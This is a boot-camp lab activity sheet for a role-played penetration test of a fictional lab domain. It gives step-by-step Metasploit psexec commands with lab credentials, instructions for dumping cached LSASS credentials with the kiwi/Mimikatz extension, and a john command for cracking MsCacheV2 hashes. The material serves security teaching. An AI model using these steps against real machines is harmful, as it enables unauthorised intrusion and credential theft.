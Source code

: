 ## Activity File: Credential Dumping

In this activity, you'll continue to play the role of a pen tester conducting an engagement on MegaCorpOne. You are tasked to use the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine. Then you will save and crack the hashes using `john`.

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!


### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module: `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the results of the command.](../../../Images/psexecoptions.PNG)

3. Run the module with `run`.

	 ![A screenshot depicts the results of the command.](../../../Images/runpsexec.PNG)

4. In your Meterpreter session, load the `kiwi` extension:

     - `load kiwi`

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter:

     - `?`

6. Dump all the cached credentials from LSASS using a `kiwi_cmd` command. Reference the [cheat sheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49) for Mimikatz. Pay attention to the "lsadump" section. 

     **Note:** If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you want to migrate to another SYSTEM x64 process.

7. In the output, the hashes are displayed after the "MsCacheV2 field." MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown.

	![A screenshot depicts the format of the hashes.](../../../Images/hashformat.PNG)
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag`--format=mscash2`, e.g., `john --format=mscash2 hashes.txt`.

8. You should now have the plain-text password to the new account of bbanner.
                                                                                                                               
---
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



